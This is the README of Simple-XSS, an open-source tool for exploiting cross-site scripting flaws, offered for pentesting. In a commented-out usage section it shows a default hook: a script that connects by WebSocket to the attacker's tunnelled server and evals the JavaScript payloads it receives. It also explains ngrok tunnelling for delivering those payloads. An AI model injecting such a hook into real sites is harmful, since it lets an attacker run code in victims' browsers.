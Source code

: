# Simple-XSS

<p align="center">
  <img src="resources/images/logo.png"  alt="Simple-XSS logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.2/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multi-platform cross-site scripting (XSS) vulnerability exploitation tool for pentesting.

Problems solved by Simple-XSS:

- [x] Easy creatable payloads & hooks
- [x] Support of several payload delivering protocols (depends on hook)
- [x] Support of several tunneling services (to deliver payload even without white IP)

**Disclaimer:** This program is provided for educational and research purposes only.
The creator of this program does not condone or support any illegal or malicious activity,
and will not be held responsible for any such actions taken by others who may use this program.
By downloading or using this program, you acknowledge that you are solely responsible for any consequences
that may result from the use of this program.

## Vocabulary

**Hook** - snippet of JS code designed to be injected via XSS on the client side.

**Payload** - a program that will be launched remotely in the client’s browser.

## Usage

### GUI-Guide

[//]: # (> Use `--help` argument to get help.)

[//]: # (![commandline help]&#40;docs/help.png&#41;)

[//]: # ()

[//]: # (### GUI-Guide)

[//]: # ()

[//]: # (Firstly, choose the hook. [Default hook]&#40;hooks/default&#41; is the simplest hook, it is only suitable for forms without XSS)

[//]: # (protection:)

[//]: # ()

[//]: # (![step 1]&#40;docs/step_1.png&#41;)

[//]: # ()

[//]: # (Then, choose the payload. [Hello world payload]&#40;payloads/hello_world&#41; is an example payload, it just alerts "Hello,)

[//]: # (World!":)

[//]: # ()

[//]: # (![step 2]&#40;docs/step_2.png&#41;)

[//]: # ()

[//]: # (Now, lets set up tunneling. Tunneling is needed to make a local server public. You have 2 options:)

[//]: # ()

[//]: # (1&#41; use one of the suggested tunneling apps &#40;now it's only [ngrok]&#40;https://ngrok.com/&#41;&#41;)

[//]: # (2&#41; tunnel ports yourself and pass the public URL of the HTTP tunnel to the program)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_1.png&#41;)

[//]: # ()

[//]: # (![step 3]&#40;docs/step_3_2.png&#41;)

[//]: # ()

[//]: # (Finally, you can run the process!)

[//]: # ()

[//]: # (![step 4]&#40;docs/step_4.png&#41;)

[//]: # ()

[//]: # (Now you can copy the hook and start hunting ;D)

[//]: # ()

[//]: # (![step 5]&#40;docs/step_5.png&#41;)

[//]: # ()

[//]: # (To demonstrate the possibilities, we can use site [xss-game.appspot.com]&#40;https://xss-game.appspot.com/&#41;.)

[//]: # (Enter the hook into search form:)

[//]: # ()

[//]: # (![step 6]&#40;docs/step_6.png&#41;)

[//]: # ()

[//]: # (Press "Search". As you can see, we have the alert dialog!)

[//]: # ()

[//]: # (![step 7]&#40;docs/step_7.png&#41;)

[//]: # ()

[//]: # (Also, we have "Hello, World!" in our console:)

[//]: # (![step 8]&#40;docs/step_8.png&#41;)

[//]: # ()

[//]: # (### Hook)

[//]: # ()

[//]: # (> _Hooks folder: [hooks]&#40;hooks&#41;_)

[//]: # ()

[//]: # (**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:)

[//]: # ()

[//]: # (```html)

[//]: # ()

[//]: # (<script>c = new WebSocket&#40;'{{environment.public_url}}'&#41;;)

[//]: # (c.onmessage = &#40;e&#41; => eval&#40;e.data&#41;;</script>)

[//]: # (```)

[//]: # ()

[//]: # (**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about)

[//]: # (this below._)

[//]: # ()

[//]: # (This is a [default]&#40;hooks/default&#41; hook. When it's embedded in the vulnerable form, it downloads the JS)

[//]: # (code &#40;[payload]&#40;#payload&#41;&#41; via)

[//]: # (WebSockets)

[//]: # (protocol from the server and)

[//]: # (executes it using [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Hook has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- hook_folder)

[//]: # (    |)

[//]: # (    +-- hook.html)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (```)

[//]: # ()

[//]: # (**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about hook such as name, description, author and version.)

[//]: # ()

[//]: # (### Payload)

[//]: # ()

[//]: # (> _Payloads folder: [payloads]&#40;payloads&#41;_)

[//]: # ()

[//]: # (**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed)

[//]: # (with [eval]&#40;https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval&#41;.)

[//]: # ()

[//]: # (Payload has the following structure:)

[//]: # ()

[//]: # (```)

[//]: # (|)

[//]: # (+-- payload_folder)

[//]: # (    |)

[//]: # (    +-- payload.js)

[//]: # (    |)

[//]: # (    +-- package.toml)

[//]: # (    |)

[//]: # (    +-- init.py)

[//]: # (```)

[//]: # ()

[//]: # (**payload.js** - main file, contains arbitrary JS code.)

[//]: # ()

[//]: # (**package.toml** - metadata file, contains data about payload such as name, description, author and version.)

[//]: # ()

[//]: # (**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload)

[//]: # (&#40;payload.js&#41; via WebSockets protocol.)

[//]: # ()

[//]: # (### Templating)

[//]: # ()

[//]: # (**Built-in objects** is an objects passed into hook & payload main files)

[//]: # (using [Jinja]&#40;https://jinja.palletsprojects.com/&#41;)

[//]: # (templating engine. It contains additional information that may be needed when loading a hook or payload.)

[//]: # ()

[//]: # (#### Environment)

[//]: # ()

[//]: # (- **public_url** - public address of WebSocket server)

[//]: # ()

[//]: # (#### Metadata)

[//]: # ()

[//]: # (**package** - hook or payload)

[//]: # ()

[//]: # (- **name** - name of package)

[//]: # (- **author** - package author)

[//]: # (- **version** - version of package)

[//]: # (- **description** - package description)

[//]: # ()

[//]: # (If you need to use some variable, just use such construction: {{object.variable}}.)

[//]: # (For example:)

[//]: # ()

[//]: # (```)

[//]: # (alert&#40;'{{metadata.name}} - V{{metadata.version}}'&#41;)

[//]: # (```)

[//]: # ()

[//]: # (The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.)

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

### WEB

### Command-Line

## Installation

**Note:** _make sure you have installed [Python 3.11](https://www.python.org/downloads/release/python-3115/)_

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install the requirements:

**For Window:**

```commandline
cd Simple-XSS
pip install -r requirements/windows.txt
```

**For Linux:**

```commandline
cd Simple-XSS
pip install -r  requirements/linux.txt
```

And finally you can launch it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
